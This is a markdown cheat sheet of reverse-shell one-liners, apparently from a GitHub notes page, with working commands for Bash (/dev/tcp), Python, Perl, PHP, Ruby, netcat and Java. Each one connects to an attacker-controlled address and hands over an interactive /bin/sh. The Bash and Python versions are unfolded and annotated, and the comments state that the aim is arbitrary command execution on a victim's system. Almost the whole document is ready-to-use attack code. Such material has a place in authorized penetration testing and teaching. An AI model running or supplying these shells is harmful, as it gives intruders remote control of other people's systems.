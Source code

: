 ## TOC

- [TOC](#toc)
- [Bash](#bash)
- [Python](#python)
- [Perl](#perl)
- [PHP](#php)
- [Ruby](#ruby)
- [Netcat](#netcat)
- [Java](#java)

**Refs:**

- [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [https://hypothetical.me/post/reverse-shell-in-bash/](https://hypothetical.me/post/reverse-shell-in-bash/)
- [https://www.gnucitizen.org/blog/reverse-shell-with-bash/](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [https://github.com/Screetsec/TheFatRat](https://github.com/Screetsec/TheFatRat)

## Bash

````bash
# 1. Host machine
nc -lvnp 4444

# 2. Remote machine
## Method1
bash -i >& /dev/tcp/$IP/4444 0>&1
## Method2, conn.sh: more general
```
exec 5<>/dev/tcp/$IP/4444
cat <&5 | while read line; do $line 2>&5 >&5; done
```
bash conn.sh
# This Bash script establishes a TCP connection to $IP on port $Port and associates 
# file descriptor 5 with both input and output of the connection. It then reads data from 
# the input of the socket, executes each line as a command, and redirects the output of 
# the command back to the output of the socket. The purpose of this script is to give remote
# command execution control to an attacker at $IP, who can execute arbitrary commands 
# on the victim's system using this control.

## Other shells (zsh, fish)
````

```bash
# Explain the details inside this command.
bash -i >& /dev/tcp/$IP/4444 0>&1
```

- first, Bash will check if special files `/dev/tcp/<host>/<port>` are supported by your OS and if they aren’t, it will emulate them by opening a TCP connection to `$IP:4444` for you
- it will also *reassign* all three standard streams (stdin, stdout, and stderr)  to the socket with this new connection, so all the output will go into, and input will be read from this socket
- then it will start a new interactive Bash session



## Python

Environment ok:

- [x] Linux/Python2.7
- [x] Kali/Python3.11.2

one-line rshell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

unfold one-line py script for easier comprehension:

```python
import socket,subprocess,os;
# create a socket obj that uses IPv4 address family (socket.AF_INET) and TCP protocol (socket.SOCK_STREAM) for communication.
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
# establish a TCP connection with a remote host.
# after this, the socket obj can be used to send and receive data.
s.connect(("10.0.0.1",1234));
# duplicate the file descriptor for the socket object onto the standard input, output, and error streams of the current process
# this allows the process to use the socket object for input and output instead of the standard streams
os.dup2(s.fileno(),0); # s.fileno() returns the integer file descriptor associated with the socket obj s.
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
# execute a shell command ("/bin/sh -i") with its standard input and output redirected to the socket object
# this allows the attacker to execute arbitrary commands on the victim's system through the established connection
p=subprocess.call(["/bin/sh","-i"]);
```



## Perl

one-line rshell:

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

more featureful and robust rshell-file: [perl-rshell.perl](https://pentestmonkey.net/tools/web-shells/perl-reverse-shell)



## PHP

one-line rshell:

This code assumes that the TCP connection uses file descriptor 3; if does not work, try 4, 5, 6 ...

```php
php -r '$sock=fsockopen("10.134.188.54",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

more featureful and robust rshell-file: [php-rshell.php](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)



## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```



## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```



## Java

Ref: [Java Reverse Shell](https://blog.spoock.com/2018/11/07/java-reverse-shell/)

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

